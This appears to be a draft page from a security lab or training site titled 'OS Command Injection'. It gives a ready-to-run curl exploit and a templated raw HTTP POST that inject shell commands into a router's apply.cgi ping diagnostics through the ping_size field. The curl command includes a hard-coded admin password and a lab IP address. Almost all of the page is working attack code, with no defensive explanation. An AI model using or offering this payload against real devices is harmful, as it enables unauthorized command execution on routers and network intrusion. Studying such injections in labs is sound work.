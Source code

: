 +++
title = "OS Command Injection"
date = 2021-10-18T20:39:54-06:00
weight = 5
draft = true
+++


## OS Command Injection
Run the following command:
```sh
cmd="uname -a"
curl -x http://localhost:8080 -k --user 'admin:LvawK!*C@6MR!Cz#*V2$ze@#7v75iT' -X POST -d "submit_button=Diagnostics&change_action=gozila_cgi&submit_type=start_ping&action=&commit=0&ping_ip=1.1.1.1&ping_times=5&traceroute_ip=" --data-urlencode "ping_size=|$cmd|" http://172.21.0.15:8080/apply.cgi >/dev/null
```
Make an HTTP POST request to the router like the following:
```
POST /apply.cgi HTTP/1.1
Host: {TARGET_IP}
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de-de,de;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Authorization: Basic {BASE_64_CREDENTIALS}
Content-Type: application/x-www-form-urlencoded
Content-Length: 181
Connection: close

submit_button=Diagnostics&change_action=gozila_cgi&submit_type=start_ping&action=&commit=0&ping_ip=1.1.1.1&ping_size=|{URL_ENCODED_CMD}|&ping_times=5&traceroute_ip=
```
**NOTE:** Replace {TARGET_IP}, {BASE_64_CREDENTIALS}, {URL_ENCODED_CMD} with the valid IP, credentials, and url encoded command respectively
